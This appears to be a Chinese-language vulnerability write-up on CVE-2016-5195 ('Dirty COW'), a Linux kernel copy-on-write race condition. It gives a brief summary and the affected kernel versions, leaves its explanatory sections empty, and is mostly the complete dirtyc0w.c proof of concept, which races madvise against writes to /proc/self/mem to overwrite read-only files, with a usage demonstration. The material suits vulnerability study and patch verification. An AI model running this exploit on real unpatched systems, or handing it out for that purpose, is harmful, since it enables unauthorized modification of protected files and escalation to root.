 #CVE-2016-5195 DirtyCow  

----------------------------------------

###0x00 漏洞概要  
Linux内核在处理内存写时拷贝（Copy-on-Write）时存在条件竞争漏洞，导致可以破坏私有只读内存映射。一个低权限的本地用户能够利用此漏洞获取其他只读内存映射的写权限，有可能进一步导致提权漏洞。  

低权限用户可以利用该漏洞修改只读内存，进而执行任意代码获取 root权限。  

该漏洞影响所有 Linux Kernel >= 2.6.22的版本。
2.6.22是 2007年发布的版本，也就是说这个漏洞几乎影响 2007以后的所有版本。

###0x01 基础知识  

###0x02 触发原理  


###0x03 POC

	/*
	####################### dirtyc0w.c #######################
	$ sudo -s
	# echo this is not a test > foo
	# chmod 0404 foo
	$ ls -lah foo
	-r-----r-- 1 root root 19 Oct 20 15:23 foo
	$ cat foo
	this is not a test
	$ gcc -pthread dirtyc0w.c -o dirtyc0w
	$ ./dirtyc0w foo m00000000000000000
	mmap 56123000
	madvise 0
	procselfmem 1800000000
	$ cat foo
	m00000000000000000
	####################### dirtyc0w.c #######################
	*/
	#include <stdio.h>
	#include <sys/mman.h>
	#include <fcntl.h>
	#include <pthread.h>
	#include <unistd.h>
	#include <sys/stat.h>
	#include <string.h>
	#include <stdint.h>
	
	void *map;
	int f;
	struct stat st;
	char *name;
	 
	void *madviseThread(void *arg)
	{
	  char *str;
	  str=(char*)arg;
	  int i,c=0;
	  for(i=0;i<100000000;i++)
	  {
	/*
	You have to race madvise(MADV_DONTNEED) :: https://	access.redhat.com/security/vulnerabilities/2706661
	> This is achieved by racing the madvise(MADV_DONTNEED) system call
	> while having the page of the executable mmapped in memory.
	*/
	   	c+=madvise(map,100,MADV_DONTNEED);
	  }
	  printf("madvise %d\n\n",c);
	}
	 
	void *procselfmemThread(void *arg)
	{
	  char *str;
	  str=(char*)arg;
	/*
	You have to write to /proc/self/mem :: https://	bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
	>  The in the wild exploit we are aware of doesn't work on Red Hat
	>  Enterprise Linux 5 and 6 out of the box because on one side of
	>  the race it writes to /proc/self/mem, but /proc/self/mem is not
	>  writable on Red Hat Enterprise Linux 5 and 6.
	*/
	  int f=open("/proc/self/mem",O_RDWR);
	  int i,c=0;
	  for(i=0;i<100000000;i++) {
	/*
	You have to reset the file pointer to the memory position.
	*/
	    lseek(f,(uintptr_t) map,SEEK_SET);
	    c+=write(f,str,strlen(str));
	  }
	  printf("procselfmem %d\n\n", c);
	}
	 
	 
	int main(int argc,char *argv[])
	{
	/*
	You have to pass two arguments. File and Contents.
	*/
	  if (argc<3) {
	  	(void)fprintf(stderr, "%s\n","usage: dirtyc0w target_file new_content");
	  	return 1; 
	  }
	  pthread_t pth1,pth2;
	/*
	You have to open the file in read only mode.
	*/
	  f=open(argv[1],O_RDONLY);
	  fstat(f,&st);
	  name=argv[1];
	/*
	You have to use MAP_PRIVATE for copy-on-write mapping.
	> Create a private copy-on-write mapping.  Updates to the
	> mapping are not visible to other processes mapping the same
	> file, and are not carried through to the underlying file.  It
	> is unspecified whether changes made to the file after the
	> mmap() call are visible in the mapped region.
	*/
	/*
	You have to open with PROT_READ.
	*/
	  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
	  printf("mmap %zx\n\n",(uintptr_t) map);
	/*
	You have to do it on two threads.
	*/
	  pthread_create(&pth1,NULL,madviseThread,argv[1]);
	  	pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
	/*
	You have to wait for the threads to finish.
	*/
	  pthread_join(pth1,NULL);
	  pthread_join(pth2,NULL);
	  return 0;
	}
  
  
 测试截图：  
 img



</br> 

---------------------------------------
References:  
CSDN.技术与创新：<http://blog.csdn.net/microzone/article/details/52885882>  
360播报：<http://m.bobao.360.cn/learning/appdetail/3132.html>  


</br>  
Author: xx  
Time: 2016.11.3  